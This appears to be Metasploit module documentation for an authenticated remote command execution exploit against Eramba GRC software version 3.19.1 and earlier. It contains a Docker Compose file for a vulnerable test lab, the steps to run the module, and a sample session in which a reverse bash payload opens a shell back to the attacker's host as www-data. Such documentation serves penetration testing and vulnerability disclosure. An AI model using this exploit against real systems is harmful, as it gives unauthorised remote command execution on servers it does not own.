 ## Vulnerable Application

Eramba is open and free GRC software, used by many companies. It offer mainly risk management solution. Version up to 3.19.1 is vulnerable to authenticated remote command execution. It is neccessary to provide valid credentials. The application allows to execute arbitrary OS commands, which can lead to remote access. Application is available in [Docker format](https://www.eramba.org/learning/courses/12/episodes/274). However, after installation, debug mode needs to be enabled. Here's modified Docker compose file for simpler testing (`docker-compose.simple-install.yml`):

### Installation

Docker and docker-compose is required.

1. git clone https://github.com/eramba/docker
2. cd docker
3. Setup database credentials and public URL in `.env`
4. Copy following into `docker-compose.simple-install.yml` 
```
version: '3.19'
services:
  mysql:
    container_name: mysql
    image: mysql:8.0.28-oracle
    command: ["mysqld", "--disable-log-bin"]
    restart: always
    volumes:
      - db-data:/var/lib/mysql
      - ./mysql/conf.d:/etc/mysql/conf.d
      - ./mysql/entrypoint:/docker-entrypoint-initdb.d
    environment:
      MYSQL_DATABASE: ${DB_DATABASE}
      MYSQL_USER: ${DB_USERNAME}
      MYSQL_PASSWORD: ${DB_PASSWORD}
      MYSQL_ROOT_PASSWORD: ${MYSQL_ROOT_PASSWORD}
  redis:
    container_name: redis
    image: redis:6.0.16-alpine
    restart: always
  eramba:
    container_name: eramba
    image: ghcr.io/eramba/eramba:3.19.1
    restart: always
    ports:
      - 8443:443
    volumes:
      - data:/var/www/eramba/app/upgrade/data
      - app:/var/www/eramba
      - logs:/var/www/eramba/app/upgrade/logs
      - ./apache/ssl/mycert.crt:/etc/ssl/certs/mycert.crt
      - ./apache/ssl/mycert.key:/etc/ssl/private/mycert.key
      - ./apache/security.conf:/etc/apache2/conf-available/security.conf
      - ./apache/ports.conf:/etc/apache2/ports.conf
      - ./apache/vhost-ssl.conf:/etc/apache2/sites-available/000-default.conf
      - ./crontab/crontab:/etc/cron.d/eramba-crontab
    environment:
      DB_HOST: ${DB_HOST}
      DB_DATABASE: ${DB_DATABASE}
      DB_USERNAME: ${DB_USERNAME}
      DB_PASSWORD: ${DB_PASSWORD}
      CACHE_URL: ${CACHE_URL}
      USE_PROXY: ${USE_PROXY}
      PROXY_HOST: ${PROXY_HOST}
      PROXY_PORT: ${PROXY_PORT}
      USE_PROXY_AUTH: ${USE_PROXY_AUTH}
      PROXY_AUTH_USER: ${PROXY_AUTH_USER}
      PROXY_AUTH_PASS: ${PROXY_AUTH_PASS}
      PUBLIC_ADDRESS: ${PUBLIC_ADDRESS}
      DOCKER_DEPLOYMENT: ${DOCKER_DEPLOYMENT}
      LDAPTLS_REQCERT: ${LDAPTLS_REQCERT}
    links:
      - mysql
      - redis
    depends_on:
      - mysql
  cron:
    container_name: cron
    image: ghcr.io/eramba/eramba:3.19.1
    command: ["cron", "-f"]
    entrypoint: ["/docker-cron-entrypoint.sh"]
    restart: always
    volumes:
      - data:/var/www/eramba/app/upgrade/data
      - app:/var/www/eramba
      - logs:/var/www/eramba/app/upgrade/logs
      - ./docker-cron-entrypoint.sh:/docker-cron-entrypoint.sh
      - ./crontab/crontab:/etc/cron.d/eramba-crontab
      - .env:/var/www/docker.env
    environment:
      DB_HOST: ${DB_HOST}
      DB_DATABASE: ${DB_DATABASE}
      DB_USERNAME: ${DB_USERNAME}
      DB_PASSWORD: ${DB_PASSWORD}
      CACHE_URL: ${CACHE_URL}
      USE_PROXY: ${USE_PROXY}
      PROXY_HOST: ${PROXY_HOST}
      PROXY_PORT: ${PROXY_PORT}
      USE_PROXY_AUTH: ${USE_PROXY_AUTH}
      PROXY_AUTH_USER: ${PROXY_AUTH_USER}
      PROXY_AUTH_PASS: ${PROXY_AUTH_PASS}
      PUBLIC_ADDRESS: ${PUBLIC_ADDRESS}
      DOCKER_DEPLOYMENT: ${DOCKER_DEPLOYMENT}
      LDAPTLS_REQCERT: ${LDAPTLS_REQCERT}
    links:
      - mysql
      - redis
      - eramba
    depends_on:
      - eramba
volumes:
  app:
  data:
  logs:
  db-data:
```

5. `docker compose -f docker-compose.simple-install.yml up -d`

Shut down: `docker compose -f docker-compose.simple-install.yml down`


## Verification Steps

1. use exploit/linux/http/eramba_rce
2. set RHOSTS [target IP]
3. set LHOST [attacker's IP]
4. set USERNAME [username]
5. set PASSWORD [password]
6. exploit

## Options

### USERNAME

A valid username for Eramba application

### PASSWORD 

A valid password for Eramba application

## Scenarios

```
msf > use exploit/linux/http/eramba_rce
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/http/eramba_rce)> set RHOSTS 192.168.95.145
RHOSTS => 192.168.95.145
msf exploit(linux/http/eramba_rce)> set LHOST 192.168.95.142
LHOST => 192.168.95.142
msf exploit(linux/http/eramba_rce)> set USERNAME admin
USERNAME => admin
msf exploit(linux/http/eramba_rce)> set PASSWORD P4ssw0rd!
PASSWORD => P4ssw0rd!
msf exploit(linux/http/eramba_rce) > exploit
[*] Started reverse TCP handler on 192.168.95.142:4444 
[*] Command shell session 1 opened (192.168.95.142:4444 -> 192.168.95.145:38460) at 2025-03-13 12:31:26 +0100
id

uid=33(www-data) gid=33(www-data) groups=33(www-data)


```

